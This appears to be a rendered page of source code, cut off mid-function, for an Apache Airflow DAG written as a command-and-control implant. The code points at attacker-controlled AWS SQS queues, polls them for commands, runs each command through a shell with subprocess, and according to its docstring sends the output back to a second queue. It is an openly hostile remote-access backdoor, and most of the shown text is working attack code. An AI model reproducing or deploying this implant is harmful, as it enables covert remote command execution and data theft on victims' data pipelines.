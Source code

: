 ### **Implant DAG Code**

```

import base64
import json
import subprocess
from datetime import datetime, timedelta

import boto3
from airflow.models.dag import DAG
from airflow.operators.python import PythonOperator

# --- Attacker-Controlled C2 Parameters ---
ATTACKER_AWS_ACCOUNT_ID = "123456789012"
ATTACKER_REGION = "us-east-1"
COMMAND_QUEUE_NAME = "airflow-celery-c2-commands"
RESULTS_QUEUE_NAME = "airflow-celery-c2-results"
# -----------------------------------------

def c2_implant_task():
    """
    This function is the C2 implant. It runs periodically.
    1. Polls an SQS queue for a command.
    2. Executes the command in a subprocess.
    3. Sends the output (stdout/stderr) back to another SQS queue.
    """
    sqs_client = boto3.client("sqs", region_name=ATTACKER_REGION)
    command_queue_url = f"https://sqs.{ATTACKER_REGION}.amazonaws.com/{ATTACKER_AWS_ACCOUNT_ID}/{COMMAND_QUEUE_NAME}"
	results_queue_url = f"https://sqs.{ATTACKER_REGION}.amazonaws.com/{ATTACKER_AWS_ACCOUNT_ID}/{RESULTS_QUEUE_NAME}"

    print(f"C2 Implant: Polling for commands from {command_queue_url}")

    try:
        # 1. Poll for a command message
        response = sqs_client.receive_message(
            QueueUrl=command_queue_url,
            MaxNumberOfMessages=1,
            WaitTimeSeconds=10 # Use long polling
        )

        if "Messages" not in response:
            print("C2 Implant: No new commands found.")
            return

        message = response["Messages"][0]
        receipt_handle = message["ReceiptHandle"]
        command = message["Body"]
        print(f"C2 Implant: Received command: '{command}'")

        # 2. Execute the command
        try:
            process = subprocess.run(
                command,
                shell=True,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                text=True,
                timeout=60
            )
            stdout = process.stdout
```